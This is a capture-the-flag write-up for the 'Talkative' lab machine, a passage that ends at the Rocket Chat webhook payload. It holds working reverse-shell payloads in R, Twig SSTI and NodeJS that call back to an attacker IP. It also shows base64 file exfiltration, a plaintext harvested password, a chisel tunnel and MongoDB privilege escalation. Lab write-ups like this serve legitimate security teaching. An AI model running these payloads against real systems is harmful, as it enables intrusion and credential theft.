## NMAP
```bash
nmap -sC -sV -v -T4 -oN scans/nmap.txt talkative.htb
```

```text
PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
80/tcp   open     http    Apache httpd 2.4.52
3000/tcp filtered ppp
8080/tcp open     http    Tornado httpd 5.0
8081/tcp open     http    Tornado httpd 5.0
8082/tcp open     http    Tornado httpd 5.0
```

## Website

Website on port `80`.

  

If we inspect the source of the website there's a reference to the CMS it uses called [boltcms](https://boltcms.io).

  
  

If we go through the [documentation](https://docs.boltcms.io/5.0/installation/installation), it tells us that the editor site is on `/bolt`.

  

We're able to access the login page but don't have credentials yet.

  

Both port `8081` and `8082` show `404: Not Found`.

## Jamovi

There's a `jamovi` web application hosted on port `8080`.

  

It has an `R` editor module installed which doesn't look default.

  

  

There's some [documentation](https://stat.ethz.ch/R-manual/R-devel/library/base/html/system.html) about running system commands using `R`.

If we use the following code based on the website above we get remote code execution.

```r
system("id", intern = TRUE)
```

  

## RCE

We can replace `id` with a bash reverse shell payload.

```bash
rlwrap nc -lnvp 9001
```

```r
system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.10/9001 0>&1'", intern = TRUE)
```

  

Upgrade shell

```bash
script -qc /bin/bash /dev/null
export TERM=xterm
```

As suspected, we're in a `Docker` container.

  

Use `cat /etc/hosts` to determine our subnet. Looks like we could be on a `172.18.0.1/24` subnet.

  

If we look at the `/root` directory there's a `bolt-administration.omv` file, let's exfiltrate it back to our machine using `base64`.

```bash
# Target
base64 bolt-administration.omv

# Our machine
echo "UEsDBBQAAAAIAAu6DlMlbXE6RwAAAGoAAAAUAAAATUVUQS..." | base64 -d > bolt-administration.omv
```

If we check out the [documentation](https://docs.jamovi.org/_pages/info_file-format.html) for `.omv` files we see it's just a ZIP archive. Unzip it using `unzip bolt-administration.omv`.

If we open the `xdata.json` file we are presented with user credentials.

  

Now that we have credentials, let's head back to the `bolt` editor login. I tried all the usernames found in the file with no success. I ended up using `admin@talkative.htb` with `matt`'s password.

  

I did notice however that it shows the username `Saul` once logged in. `Saul` must be the administrator.

  

## SSTI

In the documentation it mentioned that it uses `twig`. Maybe we could get SSTI using `twig`.

I found the correct site files in `base-2021` and `themes/index.twig`. I added a simple `{{7*7}}` SSTI payload to test. Saved and reloaded the site and it didn't work. I found a `Clear the cache` page.

  

And it executes! We'll use this to get our shell.

  

```php
{{['/bin/bash -c "bash -i >& /dev/tcp/10.10.16.10/9002 0>&1"']|filter('system')}}
```

```bash
rlwrap nc -lnvp 9002
```

I cleared the cache once more and then used `curl` to execute the payload.

  

```bash
script -qc /bin/bash /dev/null
export TERM=xterm
```

This container is on another subnet `172.17.0.1/24`. Since we have some credentials, lets see if we can SSH out of this container to the host. `saul:jeO09ufhWD<s`

```bash
ssh saul@172.17.0.1
```

  

## Tunneling

Let's get [chisel](https://github.com/jpillora/chisel/) onto the target and enumerate the network a bit more.

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gunzip chisel_1.7.7_linux_amd64.gz
mv chisel_1.7.7_linux_amd64 chisel

# Start web server
python3 -m http.server 80
```

Download `chisel` on the target.

```bash
cd /tmp
curl http://10.10.16.10/chisel -o chisel
chmod +x chisel
```

Create a `socks` proxy using `chisel`.

```bash
# On our machine
./chisel server -p 8000 --reverse

# On the target
./chisel client 10.10.16.10:8000 R:socks
```

Setup `foxyproxy` in Firefox.

  

## Rocket Chat

If you remember from our initial `nmap` scan, port 3000 was filtered. If we try accessing this page now we get a `Rocket Chat` site.

  

I tried various credentials without success. Instead we can modify the database directly and add our own user. I'll start by registering for an account so we can reuse the hashed password.

As we can see, we aren't an administrator.

  

After going through the Rocket Chat [documentation](https://developer.rocket.chat/rocket.chat/rocket-chat-environment-setup/linux) we know it uses `mongodb`. This runs on port `27017`.

We can enumerate the network using `nmap` in `TCP` only mode since we're proxying it via `chisel`.

```bash
proxychains nmap -sT -oN scans/nmap_subnet.txt -p 27017 172.17.0.0/24
```

If we look at the results, port `27017` is open on `172.17.0.2`.

  

## MongoDB

Install the `mongo` client.

```bash
sudo apt install mongo -y
```

Now we can connect to the database.

```bash
proxychains mongo mongodb://172.17.0.2:27017 
```

  

```bash
use meteor
db.users.find()
```

  

If we format the users we can more easily analyse it. We can see that the `saul` user has the `admin` role.

  

If we run the following command we are adding the "admin" item to our user's roles granting us administration permissions.

```mongo
db.users.update(
  {"_id": "AakeAMzbvervvW3XJ"},
  {
    $set: {
      "roles": ["admin"]
    }
  }
)
```

## Webhook Shell

If we reload the page, we see that we get an `Administration` button.

  

We can abuse the webhook functionality to get a shell. There's a [writeup](https://ctftime.org/writeup/29834) that does exactly that already.

We'll use the following `NodeJS` script as our shell payload that will be triggered when `Rocket Chat` gets an incoming webhook request.

```javascript
const require = console.log.constructor('return process.mainModule.require')();
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(9005, "10.10.16.10", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

